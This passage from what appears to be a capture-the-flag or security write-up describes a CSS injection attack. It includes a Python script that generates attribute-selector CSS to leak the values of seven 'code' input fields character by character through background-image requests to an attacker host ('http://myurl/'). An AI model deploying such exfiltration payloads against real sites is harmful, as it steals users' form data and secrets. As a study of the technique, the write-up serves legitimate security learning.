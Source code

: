 Time to find out what element our potential code is in.
i quickly found an input element with a name starting with "c"
so i tried input[name^='code'] and got another hit.
Now i decided to write a quick python script to automatically generate the css for me to speed things up.
It found that there are 7 input fields with names code_1 - code_7.

This was the code i ended up with

-----------------------

-----------------------

{% highlight python %}

import sys

keyspace = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789/*-+\{\}[]\!\\\"£$%^&*()_="

css1 = """
input[name^='code_1'][value^='%s'] {
    background-image: url('http://myurl/1%s');
}
"""
css2 = """
input[name^='code_2'][value^='%s'] {
    background-image: url('http://myurl/2%s');
}
"""
css3 = """
input[name^='code_3'][value^='%s'] {
    background-image: url('http://myurl/3%s');
}
"""
css4 = """
input[name^='code_4'][value^='%s'] {
    background-image: url('http://myurl/4%s');
}
"""
css5 = """
input[name^='code_5'][value^='%s'] {
    background-image: url('http://myurl/5%s');
}
"""
css6 = """
input[name^='code_6'][value^='%s'] {
    background-image: url('http://myurl/6%s');
}
"""
css7 = """
input[name^='code_7'][value^='%s'] {
    background-image: url('http://myurl/7%s');
}
"""


for letter in keyspace:
    print(css1 % (letter,letter))
    print(css2 % (letter,letter))
    print(css3 % (letter,letter))
    print(css4 % (letter,letter))
    print(css5 % (letter,letter))
    print(css6 % (letter,letter))
    print(css7 % (letter,letter))

{% endhighlight %}
